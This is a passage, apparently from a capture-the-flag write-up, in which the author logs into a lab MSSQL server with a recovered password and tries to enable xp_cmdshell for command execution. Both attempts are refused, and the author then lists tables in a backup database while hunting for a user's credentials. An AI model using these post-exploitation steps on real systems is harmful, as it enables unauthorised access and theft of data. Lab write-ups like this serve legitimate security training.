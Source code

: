 
```bash
└─$ sqsh -S 127.0.0.1:1433 -U db_admin -P B1@hx31234567890
sqsh-2.5.16.1 Copyright (C) 1995-2001 Scott C. Gray
Portions Copyright (C) 2004-2014 Michael Peppler and Martin Wesdorp
This is free software with ABSOLUTELY NO WARRANTY
For more information type '\warranty'
1> 

```

Tried to use xp_cmdshell to get command execution just for fun: 

```bash
1> xp_cmdshell 'whoami'
2> go
Msg 15281, Level 16, State 1
Server 'DC', Procedure 'xp_cmdshell', Line 1
SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system
administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
```

Nope, I don't have permission: X)

```bash
1> EXEC SP_CONFIGURE 'xp_cmdshell', 1
2> reconfigure
3> go
Msg 15123, Level 16, State 1
Server 'DC', Procedure 'SP_CONFIGURE', Line 62
The configuration option 'xp_cmdshell' does not exist, or it may be an advanced option.
(return status = 1)
Msg 5812, Level 14, State 1
Server 'DC', Line 2
You do not have permission to run the RECONFIGURE statement.
1> 

```

However, let's look for databeses and dump them. We are looking for nikk37. I remember  streamio_backup. I took the name from the SQL injection we exploited before using sqlmap.

I got the syntax from: https://stackoverflow.com/questions/811616/whats-the-equivalent-of-show-tables-in-sqsh

```bash
1> select table_name from streamio_backup.information_schema.tables;
2> go

        table_name                                                                                                                                                                           
                                                                                                                                                                                             
                                                                                                                                              

        -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
----------------------------------------------------------------------------------------------------------------------------------------------

        movies                                                                                                                                                                               
                                                                                                                                                                                             
                                                                                                                                              

```